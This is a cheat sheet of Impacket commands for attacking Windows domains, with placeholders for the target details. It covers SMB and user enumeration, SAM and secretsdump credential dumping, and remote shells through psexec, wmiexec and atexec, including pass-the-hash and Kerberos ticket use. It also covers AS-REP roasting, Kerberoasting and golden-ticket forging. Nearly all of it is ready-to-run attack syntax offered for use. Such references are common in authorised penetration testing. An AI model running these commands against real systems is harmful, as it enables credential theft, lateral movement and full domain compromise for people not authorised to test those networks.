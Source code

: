 # Impacket

% impacket, windows, smb

## smbclient - connect to smb on the target
```
smbclient.py <domain>/<user>:<password>@<ip>
```

## lookupsid - SID User Enumeration,  extract the information about what users exist and their data. 
```
lookupsid.py <domain>/<user>:<password>@<ip>
```

## reg - query registry info remotely
```
reg.py <domain>/<user>:<password>@<ip> query -keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
```

## rpcdump - list rpc endpoint
```
rpcdump.py <domain>/<user>:<password>@<ip>
```

## samrdump - system account, shares, etc... (dump info from the Security Account Manager (SAM))
```
samrdump.py <domain>/<user>:<password>@<ip>
```

## services.py - (start, stop, delete, read status, config, list, create and change any service) remote
```
services.py <domain>/<user>:<password>@<ip> <action>
``` 

## getarch - find target architecture (64 or 32 bits)
```
getArch.py -target <ip>
```

## netview - enumeration tool (ip/shares/sessions/logged users) - need dns set
```
netview.py <domain>/<user> -target <ip> -users <users_file>
```

## secretdump
```
secretsdump.py '<domain>/<user>:<pass>'@<ip>
```

% impacket, windows, exec

## PSEXEC with username // create a new service (using \pipe\svcctl via SMB)
```
psexec.py <domain>/<user>:<password>@<ip>
```

## PSEXEC with Hash // create a new service (using \pipe\svcctl via SMB)
```
psexec.py -hashes <hash> <user>@<ip>
```

## PSEXEC with kerberos // create a new service (using \pipe\svcctl via SMB)
```
export KRB5CCNAME=<ccache_file>; psexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

## wmiexec (execute a command shell without touching the disk or running a new service using DCOM)
```
wmiexec.py <domain>/<user>:<password>@<ip>
```

## wmiexec  with hash (execute a command shell without touching the disk or running a new service using DCOM)
```
wmiexec.py -hashes <hash> <user>@<ip>
```

## atexec - execute command view the task scheduler (using \pipe\atsvc via SMB)
```
atexec.py <domain>/<user>:<password>@<ip> "command"
```

## atexec hashes - execute command view the task scheduler (using \pipe\atsvc via SMB)
```
atexec.py -hashes <hash> <user>@<ip> "command"
```

% impacket, windows, kerberos, 88

## GetNPUsers without password to get TGT
```
GetNPUsers.py <domain>/<user> -no-pass -request -format hashcat
```

## GetNPUsers - attempt to list and get TGTs for those users that have the property ‘Do not require Kerberos preauthentication’
```
GetNPUsers.py -dc-ip <dc_ip> <domain>/ -usersfile <users_file> -format hashcat
```

## GetUSERSPN - find Service Principal Names that are associated with a normal user account
```
GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
```

## Ticketer - (golden ticket) - generate TGT/TGS tickets into ccache format which can be converted further into kirbi.
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> <user>
```

## TicketConverter - convert kirbi files (commonly used by mimikatz) into ccache files used by impacket
```
ticketConverter.py <ccache_ticket_file> <ticket_kirbi_file>
```

## GetTGT - request a TGT and save it as ccache for given a password, hash or aesKey
```
getTGT.py -dc-ip <dc_ip> -hashes <lm_hash>:<nt_hash> <domain>/<user>
```

## GetADUser - gather data about the domain’s users and their corresponding email addresses
```
GetADUSers.py -all <domain>/<user>:<password> -dc-ip <dc_ip>
```

